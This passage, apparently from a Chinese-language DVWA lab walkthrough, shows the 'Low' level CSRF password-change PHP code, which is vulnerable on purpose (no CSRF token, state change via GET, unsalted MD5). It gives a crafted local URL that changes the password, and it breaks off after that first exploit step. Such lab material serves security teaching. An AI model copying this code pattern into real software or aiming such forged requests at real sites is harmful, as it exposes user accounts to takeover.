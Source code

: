 下面对四种级别的代码进行分析。
## 1. Low
### 代码
```
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Get input 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Do the passwords match? 
    if( $pass_new == $pass_conf ) { 
        // They do! 
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : "")); 
        $pass_new = md5( $pass_new ); 

        // Update the database 
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user 
        echo "<pre>Password Changed.</pre>"; 
    } 
    else { 
        // Issue with passwords matching 
        echo "<pre>Passwords did not match.</pre>"; 
    } 

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res); 
} 

?> 
```
 可以看到，服务器收到修改密码的请求后，会检查参数password_new与password_conf是否相同，如果相同，就会修改密码，并没有任何的防CSRF机制（当然服务器对请求的发送者是做了身份验证的，是检查的cookie，只是这里的代码没有体现）。

### 漏洞利用
1. 最基础的-构造链接
```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
```
![Alt text](../src/CSRF/src/CSRF/1513514516418.png)
